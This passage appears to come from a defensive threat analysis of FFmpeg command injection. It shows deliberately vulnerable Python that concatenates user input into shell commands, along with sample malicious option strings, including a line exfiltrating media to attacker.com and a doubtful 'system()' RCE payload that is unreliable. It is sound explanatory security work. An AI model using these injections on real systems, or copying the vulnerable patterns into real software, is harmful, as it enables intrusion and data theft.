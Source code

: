 *   **Attacker Goal:** The attacker's primary goals could include:
    *   **Denial of Service (DoS):**  Crashing the FFmpeg process or the entire application, making it unavailable to legitimate users.
    *   **Remote Code Execution (RCE):**  Gaining the ability to execute arbitrary code on the server or system running the application. This is the most severe outcome.
    *   **Information Disclosure:**  Reading sensitive files from the system.
    *   **Resource Exhaustion:**  Consuming excessive system resources (CPU, memory, disk space).
    *   **Data Corruption:** Modifying or deleting video files or other data.

*   **Attacker Capabilities:**  The attacker needs the ability to provide input to the application that influences the FFmpeg command.  This could be through:
    *   **Web Forms:**  Input fields, file uploads, URL parameters.
    *   **API Calls:**  Parameters passed to API endpoints.
    *   **Configuration Files:**  If user-supplied data is used to populate configuration files that are then used to construct FFmpeg commands.
    *   **Database Input:** If data from a database (potentially compromised through SQL injection) is used in FFmpeg commands.

**2.2 Vulnerability Analysis:**

The core vulnerability lies in *any* code path where user-provided data is directly concatenated into an FFmpeg command string.  Here are some examples of vulnerable code patterns (using Python, but the principle applies to any language):

**Vulnerable Example 1 (Direct Concatenation):**

```python
def process_video(user_filename, user_options):
    command = f"ffmpeg -i {user_filename} {user_options} output.mp4"
    subprocess.run(command, shell=True)
```

In this example, `user_filename` and `user_options` are directly inserted into the command string.  An attacker could provide malicious input for `user_options`, such as:

*   `-i input.mp4 -f null -` (DoS - consumes resources)
*   `-i input.mp4 -vf \"scale=10000:10000\" output.mp4` (DoS - attempts to create a huge image)
*   `-i input.mp4 -c:a aac -b:a 128k -vn -filter_complex \"[0:a]aeval=val=system('id')\" output.wav` (RCE - attempts to execute the `id` command; highly dependent on FFmpeg version and configuration)
*  `-i input.mp4 -map 0:v -map 0:a -c copy -f rtp rtp://attacker.com:1234` (Data Exfiltration - streams video and audio to attacker's server)

**Vulnerable Example 2 (Insufficient Sanitization):**

```python
def process_video(user_filename):
    sanitized_filename = user_filename.replace(";", "")  # Weak attempt at sanitization
    command = f"ffmpeg -i {sanitized_filename} output.mp4"
    subprocess.run(command, shell=True)
```

This example attempts to sanitize the input, but it's easily bypassed.  An attacker could use other shell metacharacters (e.g., `&`, `|`, `` ` ``, `$()`) or FFmpeg-specific options that don't contain semicolons.

**Vulnerable Example 3 (Indirect Injection):**
